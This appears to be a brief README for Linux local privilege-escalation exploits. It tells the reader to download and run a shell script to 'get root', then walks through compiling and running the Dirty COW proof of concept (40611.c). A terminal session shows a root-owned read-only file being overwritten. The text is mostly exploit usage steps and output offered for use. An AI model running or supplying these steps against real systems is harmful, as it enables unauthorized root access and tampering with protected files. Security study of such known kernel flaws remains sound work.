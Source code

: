 ### Steps: run_exec.sh 
 1. Download .sh file 
 1. make exec and run 

 You will get root
 
### Steps: 40611.c 

 1. Download .c 
 2. compile the c code 
 3. Run on read only/root protected file 

    ```sh 
    $ ls -lah foo
    -r-----r-- 1 root root 19 Oct 20 15:23 foo
    $ cat foo
    this is not a test
    $ gcc -pthread dirtyc0w.c -o dirtyc0w
    $ ./dirtyc0w foo m00000000000000000
    mmap 56123000
    madvise 0
    procselfmem 1800000000
    $ cat foo
    m00000000000000000
```

File foo will be modified 